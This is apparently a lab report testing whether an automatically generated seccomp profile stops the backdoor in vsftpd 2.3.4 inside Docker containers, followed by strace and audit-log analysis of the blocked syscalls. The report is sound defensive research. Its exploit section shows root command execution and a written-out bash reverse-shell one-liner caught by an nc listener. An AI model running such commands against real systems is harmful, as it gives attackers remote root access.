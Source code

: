 ## vsftpd – chestnut

### Preparation

_For the container with seccomp, we execute the file `/tmp/script.sh` which is extracting the system calls from the binary `vsftpd`, creating a seccomp-profile based on these detected system calls and subsequently applying the profile on the binary. Afterwards, the binary is automatically run._

`docker exec -it vsftpd-chestnut-seccomp-container bash -c "source /Chestnut/Binalyzer/venv/bin/activate && /tmp/script.sh"  `

_For the container without seccomp, we just have to start it with following command:_

`docker exec -it vsftpd-chestnut-normal-container /app/vsftpd-2.3.4-infected/vsftpd /app/vsftpd-2.3.4-infected/vsftpd.conf`

### Conduct the exploits

First, we verify the IP addresses of the container, to ensure we target the right containers:

```
❯ docker ps
CONTAINER ID IMAGE COMMAND CREATED STATUS PORTS NAMES
4f16987c58e0 vsftpd-chestnut-seccomp "/bin/bash" 10 minutes ago Up 10 minutes 0.0.0.0:2104->21/tcp, [::]:2104->21/tcp, 0.0.0.0:6204->6200/tcp, [::]:6204->6200/tcp vsftpd-chestnut-seccomp-container
66fa1ece7f08 vsftpd-chestnut-normal "/bin/bash" 10 minutes ago Up 10 minutes 0.0.0.0:2103->21/tcp, [::]:2103->21/tcp, 0.0.0.0:6203->6200/tcp, [::]:6203->6200/tcp vsftpd-chestnut-normal-container

❯ docker inspect vsftpd-chestnut-seccomp-container | grep '"IPAddress":'
"IPAddress": "192.168.224.2",
❯ docker inspect vsftpd-chestnut-normal-container | grep '"IPAddress":'
"IPAddress": "192.168.224.3",

```

_Seccomp_:
The attack on the container with the applied seccomp profile on the binary fails:

```
❯ ./attackSubject.sh 192.168.224.2 whoami
read(net): Connection reset by peer
[-] no response!
❯ ./attackSubject.sh 192.168.224.2 id
read(net): Connection reset by peer
[-] no response!
❯ ./attackSubject.sh 192.168.224.2 ls
read(net): Connection reset by peer
[-] no response!
❯ ./attackSubject.sh 192.168.224.2 pwd
read(net): Connection reset by peer
[-] no response!
```

_Normal_
The attack on the container without the seccomp profile succeeds. We are able to run arbitrary commands:

```
❯ ./attackSubject.sh 192.168.224.3 "id"
[+] worked: uid=0(root) gid=0(root) groups=0(root)
❯ ./attackSubject.sh 192.168.224.3 "pwd"
[+] worked: /app/vsftpd-2.3.4-infected
❯ ./attackSubject.sh 192.168.224.3 "ls"
[+] worked: AUDIT
BENCHMARKS
❯ ./attackSubject.sh 192.168.224.3 "whoami"
[+] worked: root
❯ ./attackSubject.sh 192.168.224.3 "bash -c 'bash -i >& /dev/tcp/192.168.224.1/4444 0>&1'"
[-] no response!

❯ nc -lvnp 4444 # note, this is on another terminal
Connection from 192.168.224.3:37400
bash: cannot set terminal process group (33): Inappropriate ioctl for device
bash: no job control in this shell
root@66fa1ece7f08:/app/vsftpd-2.3.4-infected# id
id
uid=0(root) gid=0(root) groups=0(root)

```

### Analysis

As the exploit worked on the container without the seccomp profile, only the one with the enforced profile will be analysed.

_strace output:_
When starting the container with the command `strace -f /tool/Chestnut/ChestnutPatcher/rewrite.sh /app/vsftpd-2.3.4-infected/vsftpd /app/vsftpd-2.3.4-infected/vsftpd.conf` we are able to see that just before the process with the pid `88` was killed with the signal `SIGSYS`, the system call `wait4` was executed.
In addition, pid `89` executed `getgid` and was also with `SIGSYS`.

```
[pid    88] alarm(0 <unfinished ...>
[pid    88] <... alarm resumed> )       = 1
[pid    88] wait4(-1,  <unfinished ...>
[pid    88] <... wait4 resumed> NULL, WNOHANG, NULL) = 61
[pid    88] +++ killed by SIGSYS +++
...
[pid    89] mprotect(0x5b5ee881b000, 8192, PROT_READ) = 0
[pid    89] mprotect(0x7d22d1047000, 4096, PROT_READ) = 0
[pid    89] munmap(0x7d22d103c000, 17328) = 0
[pid    89] getuid()                    = 0
[pid    89] getgid()                    = 104
[pid    89] +++ killed by SIGSYS (core dumped) +++
```

Further analysis on the host machine with the tool `ausearch` delievers us more insights.
As we can see, the syscalls with the number `104` and `61` were the reason for the `SIGSYS` signal.

```
----
# whoami command
time->Thu May  1 09:04:26 2025
type=SECCOMP msg=audit(1746083066.494:1450): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=22798 comm="sh" exe="/bin/dash" sig=31 arch=c000003e syscall=104 compat=0 ip=0x7d22d0b12857 code=0x0
----
time->Thu May  1 09:04:26 2025
type=SECCOMP msg=audit(1746083066.590:1456): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=22711 comm="vsftpd_patched" exe="/app/vsftpd-2.3.4-infected/vsftpd_patched" sig=31 arch=c000003e syscall=61 compat=0 ip=0x7acc6eeb6337 code=0x0
```

We verify that the system call numbers `104` and `61` map to `getgid` and `wait4` with the `ausyscall` tool:

```
❯ ausyscall --dump | grep 104
104	getgid

❯ ausyscall --dump | grep 61
61	wait4
```

The last thing we check is, if the system call numbers `104` and `61` was in the applied seccomp profile. The file `policy__app_vsftpd-2.3.4-infected_vsftpd.json` shows no presence:

```json
{
  "version": 1,
  "syscalls": [
    0, 1, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 19, 20, 21, 23, 28,
    33, 37, 38, 39, 41, 42, 43, 45, 46, 47, 48, 49, 50, 51, 52, 53, 54, 55, 56,
    59, 60, 62, 63, 72, 77, 78, 79, 80, 82, 83, 84, 87, 89, 90, 91, 93, 95, 96,
    102, 105, 106, 107, 108, 111, 112, 113, 114, 116, 132, 157, 158, 161, 164,
    186, 201, 202, 229, 231, 234, 257, 262, 302
  ]
}
```

## Appendix

The following shows the time needed to extract the system calls from 3 runs:

```
docker exec -it vsftpd-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/vsftpd-2.3.4-infected/vsftpd"
...
real	0m26.930s
user	0m25.725s
sys	0m1.084s

docker exec -it vsftpd-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/vsftpd-2.3.4-infected/vsftpd"
...
real	0m28.045s
user	0m26.789s
sys	0m1.109s

docker exec -it vsftpd-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/vsftpd-2.3.4-infected/vsftpd"
...
real	0m27.484s
user	0m26.194s
sys	0m1.140s
```
